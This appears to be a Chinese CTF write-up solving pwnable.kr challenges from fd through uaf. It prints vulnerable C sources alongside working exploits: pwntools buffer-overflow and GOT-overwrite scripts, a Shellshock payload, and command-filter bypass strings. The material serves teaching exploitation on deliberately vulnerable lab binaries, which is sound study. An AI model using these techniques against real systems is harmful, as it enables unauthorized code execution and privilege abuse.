




画风很可爱的 Pwn 题练习网站。

<!--more-->

## fd

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi(argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

这里需要传入一个命令行参数，用它减去 `0x1234` 后得到 `fd` 也就是 Linux 下的文件描述符，并读取对应的文件到 `buf` 中。我们当然可以创建一个文件，但是控制其 fd 比较麻烦；但我们知道，Linux 下标准输入流也有自己的 fd，即 0。因此我们只需要传入 `0x1234` 的十进制形式 `4660`，并在标准输入中输入 `LETMEWIN\n` 即可：

```shell
$ ./fd 4660
LETMEWIN
```

## collision

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

首先要求输入 20 字节的密码（显然是个 `char *`），然后将它强制转换为 `int *` 类型。我们知道，一个 `char` 是 1 字节，而一个 `int` 是 4 字节，因此 20 字节的 `char` 数组会变成 5 个 `int` 组成的 `int` 数组。

这 5 个 `int` 会被累加，然后要求其和等于 `hashcode`。换而言之随便找 5 个加起来等于 `hashcode` 的十六进制数就行了：

```shell
$ python -c 'print hex(0x21dd09ec-0x01010101*4)'
0x1dd905e8

$ ./col $(python -c'print "\xe8\x05\xd9\x1d"+"\x01"*16')
```

注意默认小端法表示。

## bof

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me :");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

从 IDA 中观察到 `overflowme` 在 `ebp-2c`，而 `key` 在 `ebp+8`，相差 `0x34`。栈上大概是这样的：

```
 HIGH ADDRESS
 ----------------------
| the states of main() | // caller
 ----------------------
| args of func()       | // including key. Also in caller's state
 ----------------------
| retaddr of func()    |
 ----------------------
| saved ebp            | <- ebp
 ----------------------
| local vars of func() | // including overflowme[]
 ----------------------  <- esp
 LOW ADDRESS
```

了解这些后，我们用 `0x34` 字节数据作填充，然后用 `0xcafebabe` 覆盖掉 `key` 即可。

```python
from pwn import *

context.log_level = 'DEBUG'

# p = process('./bof')
p = remote('pwnable.kr', 9000)

payload = 'a'*0x34 + p32(0xcafebabe)
p.sendline(payload)

p.interactive()
```

## flag

在 Hex-View 中发现是 UPX 加壳的，`upx -d` 脱壳。

脱壳后的程序提示会 `malloc` 然后 `strcpy` 本题的 flag，查看汇编代码，发现这里 flag 的变量名是 `cs:flag`，跟踪变量得到 flag。

## passcode

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 :");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 :");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name :");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

直接输入 passcode 的话会显示段错误，显然是因为两个 `scanf` 都没有在变量前加 `&`，直接往变量值所代表的地址上写了。

换句话说，我们可以输入适当的 `passcode` 来控制两个局部变量的地址，使得他们等于那两个数值。而存储那两个数值的地址，只能来自于我们输入的 `name`。

然而这两个数值代表的地址未必可写，`name` 和两个 `passcode` 也位于不同栈帧，无法缓冲区溢出来覆盖。到这一步似乎卡住了。但经过反汇编发现 `name` 在 `ebp-0x70`，`passcode1` 在 `ebp-0x10`，两者相差 96 字节且位于同一栈帧，换句话说 `name` 是可以覆盖 `passcode1` 的，这样看似乎又有希望。

注意到 `login` 中，`scanf` 第一次后调用了 `fflush`。因此我们可以考虑利用 `scanf` 的写特性写 GOT 表，因为 GOT 表肯定是可写的。那么我们可以先用 `fflush` 的 GOT 地址（不止 `fflush`，程序中包含的 GLIBC 函数都行）覆盖 `passcode1` 的值，然后通过 `scanf` 对 `passcode1` 的**值所代表的地址**（也就是 `fflush` 的 GOT）写入 `system("/bin/cat flag")` 的地址。这样相当于将 `fflush` 函数劫持到了 `system("/bin/cat flag")` 上。

`objdump -R passcode` 导出程序动态重定向表，拿到 `fflush` 的 GOT 地址 `0804a004`；然后 gdb 里 `disas login` 拿到 `system("/bin/cat flag")` 的地址 `080485e3`，**注意**这个地址实际上是 `call system` 的前一句：`movl $0x80487af,(%esp)`，也就是准备 `system` 函数的参数的语句。最后发 payload：

```shell
$ python
>>> from pwn import *
>>> context.log_level = 'DEBUG'
>>> p = process('./passcode')
>>> p.sendline('a'*96+p32(0x0804a004))
>>> p.sendline(str(0x080485e3))
>>> p.interactive()
```

需要注意的是，`scanf` 的时候接收 `%d`，因此需要 `str` 一下转成十进制字符串。

> 注：
>
> 1. GLIBC 函数的 GOT 地址，在 pwntools 中可以用类似 `elf.got['fflush']` 的方法获得，更加方便
> 2. 如果开启了 PIE 则需要 leak 出 GOT 地址。

## random

```c
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &key);

        if((key ^ random) == 0xdeadbeef ){
                printf("Good!\n");
                system("/bin/cat flag");
                return 0;
        }

        printf("Wrong, maybe you should try 2^32 cases.\n");
        return 0;
}
```

我们都知道 C 的 `rand` 函数是伪随机，随机性取决于 `srand` 函数设定的种子，这个种子默认为 `1`。因此 `random` 变量实际上是固定的，只要在栈上把他读出来即可。

`random` 是函数的局部变量，并且是 `unsigned int`，因此应该在 `ebp-4 的位置 `。我们在有 `deadbeef` 的那行下断点，随便输入后，在 gdb 中输入 `x/8x $rbp-4`，即可读取到：

```
0x7ffefe6d5d0c: 0x6b8b4567      0x00400670      0x00000000      0x4439d830
0x7ffefe6d5d1c: 0x00007f68      0x00000001      0x00000000      0xfe6d5df8
```

也就是说，`0x6b8b4567` 就是这个 `random`，我们由此可以算出 `key` 为 `3039230856`。

## input

非常好玩的一题，涵盖了 Linux 下各种基本的通信方式。

先说一下这题的坑点：`/home/input` 下我们没有写权限，而 `/tmp` 目录下有写权限没有读权限，所以比较好的方法是在 `/tmp` 下新建个目录，把 flag 软链接（`ln -s /home/input2/flag ./flag`）到这个目录里，脚本放在同一目录下运行。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
    printf("Welcome to pwnable.kr\n");
    printf("Let's see if you know how to give input to program\n");
    printf("Just give me correct inputs then you will get the flag :)\n");

    // argv
    if(argc != 100) return 0;
    if(strcmp(argv['A'],"\x00")) return 0;
    if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
    printf("Stage 1 clear!\n");

    // stdio
    char buf[4];
    read(0, buf, 4);
    if(memcmp(buf,"\x00\x0a\x00\xff", 4)) return 0;
    read(2, buf, 4);
        if(memcmp(buf,"\x00\x0a\x02\xff", 4)) return 0;
    printf("Stage 2 clear!\n");

    // env
    if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
    printf("Stage 3 clear!\n");

    // file
    FILE* fp = fopen("\x0a", "r");
    if(!fp) return 0;
    if(fread(buf, 4, 1, fp)!=1 ) return 0;
    if(memcmp(buf,"\x00\x00\x00\x00", 4) ) return 0;
    fclose(fp);
    printf("Stage 4 clear!\n");

    // network
    int sd, cd;
    struct sockaddr_in saddr, caddr;
    sd = socket(AF_INET, SOCK_STREAM, 0);
    if(sd == -1){
        printf("socket error, tell admin\n");
        return 0;
    }
    saddr.sin_family = AF_INET;
    saddr.sin_addr.s_addr = INADDR_ANY;
    saddr.sin_port = htons(atoi(argv['C']) );
    if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) <0){
        printf("bind error, use another port\n");
            return 1;
    }
    listen(sd, 1);
    int c = sizeof(struct sockaddr_in);
    cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
    if(cd < 0){
        printf("accept error, tell admin\n");
        return 0;
    }
    if(recv(cd, buf, 4, 0) != 4 ) return 0;
    if(memcmp(buf,"\xde\xad\xbe\xef", 4)) return 0;
    printf("Stage 5 clear!\n");

    // here's your flag
    system("/bin/cat flag");
    return 0;
}
```

可以看到一共有 5 关：

- 第一关要求有 100 个命令行参数，其中第 64 个是 `\x00`，第 65 个是 `\x20\x0a\x0d`；
- 第二关分别从标准输入和标准错误流中读取，要求读到的信息分别是 `\x00\x0a\x00\xff` 和 `\x00\x0a\x00\xff`，由于我们无法控制标准错误流，可以采用管道重定向的方式；
- 第三关需要我们设置环境变量 `\xde\xad\xbe\xef=\xca\xfe\xba\xbe`；
- 第四关读取一个文件，要求前四个字节是 `\x00\x00\x00\x00`；
- 第五关建立了一个 socket，监听的端口来自第 66 个命令行参数，且期望收到的消息是 `\xde\xad\xbe\xef`。

编写 python 脚本：

```python
import os
import subprocess
import socket
import time

# stage 1
args = list("A"*100)
args[0] = "/home/input2/input"
args[ord('A')] = ""
args[ord('B')] = "\x20\x0a\x0d"
args[ord("C")] = "8080"

# stage 2
stdin_r, stdin_w = os.pipe()
stderr_r, stderr_w = os.pipe()
os.write(stdin_w,"\x00\x0a\x00\xff")
os.write(stderr_w,"\x00\x0a\x02\xff")

# stage 3
env = {"\xde\xad\xbe\xef": "\xca\xfe\xba\xbe"}

# stage 4
with open("\x0a", "wb") as f:
    f.write("\x00"*4)

# open a subprocess here because we need a server
p = subprocess.Popen(args, stdin=stdin_r,stderr=stderr_r,env=env)

# stage 5
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
time.sleep(1) # wait 4 server
s.connect(("127.0.0.1", 8080))
s.send("\xde\xad\xbe\xef")
s.close()
```

## leg

```c
#include <stdio.h>
#include <fcntl.h>
int key1(){
    asm("mov r3, pc\n");
}
int key2(){
    asm(
    "push    {r6}\n"
    "add    r6, pc, $1\n"
    "bx    r6\n"
    ".code   16\n"
    "mov    r3, pc\n"
    "add    r3, $0x4\n"
    "push    {r3}\n"
    "pop    {pc}\n"
    ".code    32\n"
    "pop    {r6}\n"
    );
}
int key3(){
    asm("mov r3, lr\n");
}
int main(){
    int key=0;
    printf("Daddy has very strong arm! :");
    scanf("%d", &key);
    if((key1()+key2()+key3()) == key ){
        printf("Congratz!\n");
        int fd = open("flag", O_RDONLY);
        char buf[100];
        int r = read(fd, buf, 100);
        write(0, buf, r);
    }
    else{
        printf("I have strong leg :P\n");
    }
    return 0;
}
```

同时，本题也给出了对应的 gdb 反汇编结果，显然是 arm 汇编指令。[参考](https://azeria-labs.com/writing-arm-assembly-part-1/)

arm 架构下：

- 采用 RISC 指令集
- pc 指向当前执行指令地址 + 8 处
- r0 保存返回值
- r11 对应 ebp，r13 对应 esp
- r15 即 pc，存储当前指令 + 8（thumb 模式下 + 4）的位置（即后两条指令）
- arm 模式下指令长度 4 字节，thumb 模式下 2 字节
- bx：带状态切换的跳转

知道了这些后，逐函数查看，先是 key1：

```
(gdb) disass key1
Dump of assembler code for function key1:
   0x00008cd4 <+0>:    push    {r11}        ; (str r11, [sp, #-4]!)
   0x00008cd8 <+4>:    add    r11, sp, #0
   0x00008cdc <+8>:    mov    r3, pc
   0x00008ce0 <+12>:    mov    r0, r3
   0x00008ce4 <+16>:    sub    sp, r11, #0
   0x00008ce8 <+20>:    pop    {r11}        ; (ldr r11, [sp], #4)
   0x00008cec <+24>:    bx    lr
End of assembler dump.
```

前两句和后三句是 arm 的函数入栈出栈返回操作，中间给 r3 赋值 `0x00008ce4` 并返回。

key2：

```
(gdb) disass key2
Dump of assembler code for function key2:
   0x00008cf0 <+0>:    push    {r11}        ; (str r11, [sp, #-4]!)
   0x00008cf4 <+4>:    add    r11, sp, #0
   0x00008cf8 <+8>:    push    {r6}        ; (str r6, [sp, #-4]!)
   0x00008cfc <+12>:    add    r6, pc, #1
   0x00008d00 <+16>:    bx    r6
   0x00008d04 <+20>:    mov    r3, pc
   0x00008d06 <+22>:    adds    r3, #4
   0x00008d08 <+24>:    push    {r3}
   0x00008d0a <+26>:    pop    {pc}
   0x00008d0c <+28>:    pop    {r6}        ; (ldr r6, [sp], #4)
   0x00008d10 <+32>:    mov    r0, r3
   0x00008d14 <+36>:    sub    sp, r11, #0
   0x00008d18 <+40>:    pop    {r11}        ; (ldr r11, [sp], #4)
   0x00008d1c <+44>:    bx    lr
End of assembler dump.
```

第三行保存 r6，第四行 r6 变成 `0x00008d05`，第五行进行带状态切换的跳转，由于 r6 最低位为 1，切换为 thumb 模式并跳转到 `0x00008d04`，也就是第六行。

第六行，由于处于 thumb 模式，pc 指向当前指令 + 4 的位置，r3 变成 `0x00008d08`。第七行 r3+4 变成 `0x0008d0c`，这就是最终的返回值。

key3：

```
(gdb) disass key3
Dump of assembler code for function key3:
   0x00008d20 <+0>:    push    {r11}        ; (str r11, [sp, #-4]!)
   0x00008d24 <+4>:    add    r11, sp, #0
   0x00008d28 <+8>:    mov    r3, lr
   0x00008d2c <+12>:    mov    r0, r3
   0x00008d30 <+16>:    sub    sp, r11, #0
   0x00008d34 <+20>:    pop    {r11}        ; (ldr r11, [sp], #4)
   0x00008d38 <+24>:    bx    lr
End of assembler dump.
(gdb)
```

这里将 lr 赋值给 r3，然后 r3 作为返回值。而 lr 相当于 `return address`，需要我们回到 main 里去看相关调用：

```
...
   0x00008d64 <+40>:    bl    0xfbd8 <__isoc99_scanf>
   0x00008d68 <+44>:    bl    0x8cd4 <key1>
   0x00008d6c <+48>:    mov    r4, r0
   0x00008d70 <+52>:    bl    0x8cf0 <key2>
   0x00008d74 <+56>:    mov    r3, r0
   0x00008d78 <+60>:    add    r4, r4, r3
   0x00008d7c <+64>:    bl    0x8d20 <key3>
   0x00008d80 <+68>:    mov    r3, r0
   0x00008d84 <+72>:    add    r2, r4, r3
...
```

可以看到这里进行了 `bl 0x8d20` 来调用 `key3` 函数，指令位于 `0x00008d7c`，那么此时返回地址应该是它的下一条指令所在地址，也就是 `0x00008d80`。

至此我们已经拿到了 3 个 key，相加得到 `108400`，输入即可。

精简指令集的确精简。

## mistake

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) <0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password :");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```

注意到 `XORKEY` 为 1，也就是说 `xor` 函数只是把字符串的每个字符最低位翻转了一下。此外我们还知道输入的密码和文件中密码都是 10 字节，但我们读取不了后者。

回到题目提示，说和运算符优先级有关，回代码里看看也只有 `fd=open("/home/mistake/password",O_RDONLY,0400) < 0` 可能出问题了，这里会先进行小于号比较，再将结果，一个布尔值，赋值给 `fd`。如果文件正常打开，那么 `fd` 应该为 `false` 也就是 `0`，这就是标准输入流的 fd，换句话说这个 pw_buf 的内容也是我们可以控制的。

之后就容易了，标准输入里输入十个 `b`，然后提示 `input password:` 时输入十个 `c` 使得异或结果正确即可。

## shellshock

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c'echo shock_me'");
        return 0;
}
```

我们需要结合 `ls -al` 的结果来分析代码：

```shell
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

可以看到我们对 `flag` 文件没有任何权限，但是 `shellshock_pwn` 组的用户可以读 `flag`。回到代码中，将 `uid` 和 `gid` 设成 `egid` 后，程序已经拥有了 `shellshock_pwn` 组的权限，可以读到 `flag` 了，只是并没有读 `flag` 的代码。

联系题目提示，我们可以利用 bash 的 [ShellShock 漏洞](https://www.freebuf.com/news/48331.html)，具体原理可以参考链接中的文章。输入 payload：

```shell
$ export foo='() {:;}; /bin/cat flag'
$ ./shellshock
```

## coin1

找假币问题，在 N 个硬币中最多花 C 次来找到唯一的一个较轻的假币，需要在 30 秒内完成 100 次游戏。最经典的解法就是二分，每次称一半，如果重量不是 10 的倍数则其中必定有假币，否则假币在另一半中，这样最多需要 `log(2, n)` 次就能找出假币。需要注意的是，由于网络延迟的关系，最好是在 pwnable.kr 的机器上运行脚本。

```python
from pwn import *
import re

p = remote('localhost', 9007)
ret = p.recv()
sleep(3)

for i in range(100):
    ret = p.recv()
    N = ret[ret.find("N=")+2:ret.find(" ")]
    C = ret[ret.find("C=")+2:ret.find("\n")]
    low = 0
    high = int(N)
    for j in range(int(C)):
        cnt = (high-low) / 2
        mid = low + cnt
        query = ''.join([str(i) for i in range(low, mid)])
        p.sendline(query)
        ret = p.recv()
        if int(ret) % 10 == 0:
            low = mid
        else:
            high = mid
    p.sendline(str(low))
    print p.recv()

print p.recv()
```

## blackjack

这题要求玩 21 点玩到拥有 `$1,000,000`，显然不能通过常规方法达成。我们查看题目给的源码，发现下注时使用的变量 `bet` 是一个 `int` 类型的数。

随后，`betting` 函数是这样的：

```c
int betting() //Asks user amount to bet
{
 printf("\n\nEnter Bet: $");
 scanf("%d", &bet);

 if (bet> cash) //If player tries to bet more money than player has
 {
        printf("\nYou cannot bet more money than you have.");
        printf("\nEnter Bet:");
        scanf("%d", &bet);
        return bet;
 }
 else return bet;
} // End Function
```

这里程序检查了下的注是否大于拥有的现金数，但并没有检查是否为负数。而当我们输掉一盘后：

```c
if(player_total<dealer_total) //If player's total is less than dealer's total, loss
{
   printf("\nDealer Has the Better Hand. You Lose.\n");
   loss = loss+1;
   cash = cash - bet;
   printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
   dealer_total=0;
   askover();
}
```

可以看到这里有一个 `cash = cash - bet` 的语句，当我们输入的 `bet` 是负数时，我们就可以让钱不减反增。也就是说，我们只需要下注 `-1000000`，然后故意输掉即可。

## lotto

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

    int i;
    printf("Submit your 6 lotto bytes :");
    fflush(stdout);

    int r;
    r = read(0, submit, 6);

    printf("Lotto Start!\n");
    //sleep(1);

    // generate lotto numbers
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd==-1){
        printf("error. tell admin\n");
        exit(-1);
    }
    unsigned char lotto[6];
    if(read(fd, lotto, 6) != 6){
        printf("error2. tell admin\n");
        exit(-1);
    }
    for(i=0; i<6; i++){
        lotto[i] = (lotto[i] % 45) + 1;        // 1 ~ 45
    }
    close(fd);

    // calculate lotto score
    int match = 0, j = 0;
    for(i=0; i<6; i++){
        for(j=0; j<6; j++){
            if(lotto[i] == submit[j]){
                match++;
            }
        }
    }

    // win!
    if(match == 6){
        system("/bin/cat flag");
    }
    else{
        printf("bad luck...\n");
    }

}

void help(){
    printf("- nLotto Rule -\n");
    printf("nlotto is consisted with 6 random natural numbers less than 46\n");
    printf("your goal is to match lotto numbers as many as you can\n");
    printf("if you win lottery for *1st place*, you will get reward\n");
    printf("for more details, follow the link below\n");
    printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
    printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

    // menu
    unsigned int menu;

    while(1){

        printf("- Select Menu -\n");
        printf("1. Play Lotto\n");
        printf("2. Help\n");
        printf("3. Exit\n");

        scanf("%d", &menu);

        switch(menu){
            case 1:
                play();
                break;
            case 2:
                help();
                break;
            case 3:
                printf("bye\n");
                return 0;
            default:
                printf("invalid menu\n");
                break;
        }
    }
    return 0;
}
```

很简单的彩票程序，利用伪随机数生成 6 个 `1 - 45` 之间的彩票号码，然后跟输入比对，如果全中则显示 flag。这个程序如此简单以至于其中的一个细节很容易被忽略：

```c
// calculate lotto score
int match = 0, j = 0;
for(i=0; i<6; i++){
    for(j=0; j<6; j++){
        if(lotto[i] == submit[j]){
            match++;
        }
    }
}
```

这是比对彩票号码的代码，初看之下没什么问题，但是如果让我们自己来写，正常的写法肯定是：

```c
for (i = 0; i < 6; i++) {
    if (lotto[i] == submit[i]) {
        match++;
    }
}
```

但这里却用了两层循环，并不是像我们想的那样比较对应位，而是从 `lotto` 和 `submit` 中各自任取一位，进行共 36 次比较。而对 `match` 的要求是 6，也就是说 36 次比较中有 6 次正确即可。

为了让成功的机率最大，我们可以输入 6 个相同的数字 `x`，只要在 `lotto` 中有一个号码等于 `x`，那么我们就成功了，这个概率还是比较大的。

需要注意的是输入的字节范围是从 `\x01` 到 `\x45`（`-`），而不是数字 `1-45`。

## cmd1

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd,"flag")!=0;
    r += strstr(cmd,"sh")!=0;
    r += strstr(cmd,"tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/thankyouverymuch");
    if(filter(argv[1])) return 0;
    system(argv[1] );
    return 0;
}
```

需要一个命令行参数，但参数中不能包含 `flag`，`sh` 和 `tmp`，这个我们可以利用通配符绕过。注意到环境变量 `PATH` 被覆盖，因此我们调用命令时需要使用绝对路径。

```shell
$ ./cmd1 "/bin/cat /home/cmd1/fla*"
```

## cmd2

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd,"=")!=0;
    r += strstr(cmd,"PATH")!=0;
    r += strstr(cmd,"export")!=0;
    r += strstr(cmd,"/")!=0;
    r += strstr(cmd,"`")!=0;
    r += strstr(cmd,"flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++)    memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system(argv[1] );
    return 0;
}
```

这次删除了所有环境变量并覆盖了 `PATH`，同时增强了对命令行参数的过滤，关键在于 `/` 被过滤了，不能直接写路径。

那么我们就需要执行系统命令来构造出 `/`，很容易想到 `pwd` 命令。我们先 `cd /`，此时运行 `pwd` 可以看到输出就是 `/`。

仿照 cmd1：

```shell
$ /home/cmd2/cmd2 "$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*"
```

但是这样没有用，猜想是因为 `$(pwd)` 先被替换成 `/` 了，因为双引号不会忽略 `$`。我们用单引号就可以防止这一替换。

```shell
$ /home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*'
```

## uaf

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
    virtual void give_shell(){
        system("/bin/sh");
    }
protected:
    int age;
    string name;
public:
    virtual void introduce(){
        cout <<"My name is " << name << endl;
        cout <<"I am "<< age <<" years old" << endl;
    }
};

class Man: public Human{
public:
    Man(string name, int age){
        this->name = name;
        this->age = age;
        }
        virtual void introduce(){
        Human::introduce();
                cout <<"I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout <<"I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
    Human* w = new Woman("Jill", 21);

    size_t len;
    char* data;
    unsigned int op;
    while(1){
        cout <<"1. use\n2. after\n3. free\n";
        cin >> op;

        switch(op){
            case 1:
                m->introduce();
                w->introduce();
                break;
            case 2:
                len = atoi(argv[1]);
                data = new char[len];
                read(open(argv[2], O_RDONLY), data, len);
                cout <<"your data is allocated" << endl;
                break;
            case 3:
                delete m;
                delete w;
                break;
            default:
                break;
        }
    }

    return 0;
}
```

本题最终肯定是要调用 `Human` 的 `give_shell` 函数，但程序不会直接调用。程序共有三种操作：

- `use`: 调用 `Man` 和 `Woman` 对象的 `introduce` 函数
- `after`: 从 `argv[2]` 中读取长为 `argv[1]` 的数据，放到 `data` 中
- `free`: 释放 `Man` 和 `Woman` 对象的指针

我们这里可以猜想是要将 `introduce` 函数劫持到 `give_shell` 上，但是具体怎么做？注意到 `give_shell` 和 `introduce` 都是被继承的虚函数，能不能通过改变函数虚表地址来劫持函数呢？

首先我们尝试找到 `Man` 的虚函数表。在 `main` 中找到 `Man` 构造函数的地址：



注意到对象被放到 `rbx` 里，我们在构造函数执行后下断点，可以查看 `Man` 的对象：

```
(gdb) b *0x400f18
(gdb) c
(gdb) p/x $rbx
$1 = 0x1fe8c50
(gdb) x/8 0x1fe8c50
0x1fe8c50:    0x00401570    0x00000000    0x00000019    0x00000000
0x1fe8c60:    0x01fe8c38    0x00000000    0x000203a1    0x00000000
```

由于虚函数表地址在对象首部，所以这里虚函数表地址就是 `0x401570`。我们继续看虚函数表：

```
(gdb) x/8a 0x401570
0x401570 <_ZTV3Man+16>:    0x40117a <_ZN5Human10give_shellEv>    0x4012d2 <_ZN3Man9introduceEv>
0x401580 <_ZTV5Human>:    0x0    0x4015f0 <_ZTI5Human>
0x401590 <_ZTV5Human+16>:    0x40117a <_ZN5Human10give_shellEv>    0x401192 <_ZN5Human9introduceEv>
0x4015a0 <_ZTS5Woman>:    0x6e616d6f5735    0x0
```

用 `a` 可以把函数名显示出来，可以看到 `Man` 和 `Human` 的 `give_shell` 虚函数地址相同，而 `introduce` 不同，这是符合 C++ 虚函数机制的：私有虚函数不能被继承，但是会在子类的虚函数表中出现。换句话说，子类调用的本质上还是父类的虚函数。

接下来用 IDA 分析，可以看到输入 `1` 的时候执行：



也就是两个 `introduce`，那么这里的 `v12` 和 `v13` 就可以确定是对应于 `m` 和 `w` 的虚指针了，之后转换为指针再 + 8，正好就是调用 `vtable + 8` 处的函数即 `introduce`。那么如果我们想让它执行位于 `vtable + 0` 的 `give_shell`，只需要在这句执行前让 `vtable` 的值减少 8 就行了。

而我们前面已经读到了 `vtable` 的值 `0x401570`，减 8 就是 `0x401568`。

